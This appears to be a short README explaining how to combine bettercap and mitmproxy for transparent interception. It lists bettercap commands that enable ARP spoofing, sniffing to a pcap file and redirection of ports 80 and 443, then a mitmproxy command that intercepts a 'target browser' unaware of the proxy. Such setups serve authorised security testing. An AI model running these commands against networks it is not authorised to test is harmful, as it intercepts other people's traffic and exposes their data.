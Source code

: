 How to set up mitmproxy with bettercap
======================================
Step 1: make sure desired port is unused (8080 in this context)
-----------------------------------------------
- mitmproxy will listen on this port

Step 2: run bettercap with following commands:
----------------------------------------------
```bettercap
set net.sniff.verbose true;
set net.sniff.output [FILENAME.pcap];
set arp.spoof.fullduplex true;
set arp.spoof internal true;
net.recon on;
net.probe on;
net.sniff on;
arp.spoof on;
```
- this will activate modules to let the arp.spoof module function
- after stopping the module net.sniff with ```net.sniff off```, it will write the traffic in FILENAME.pcap

Step 3: let bettercap redirect traffic to mitmproxy
---------------------------------------------------
```bettercap
set any.proxy.dst_port 8080;
set any.proxy.src_port 80, 443;
any.proxy on
```
- redirecting traffic from 443 will let mitmproxy read sni from client hello

Step 4: run mitmproxy with following code:
------------------------------------------
```bash
sudo mitmproxy --mode transparent -p 8080 -s [SCRIPT.py]
```
- mitmproxy has to run in transparent mode because target browser is unaware of the proxy
    - normally, the browser knows if mitmproxy is listening and this requires manual setup on the browser side
    - transparent mode goes under the assumption that the browser isn't aware of it listening (necessary for intercepting)
- -s SCRIPT.py tells mitmproxy which python script to use
- TODO: make mitmproxy trigger tls_clienthello event hook (somehow doesn't work with current setup)


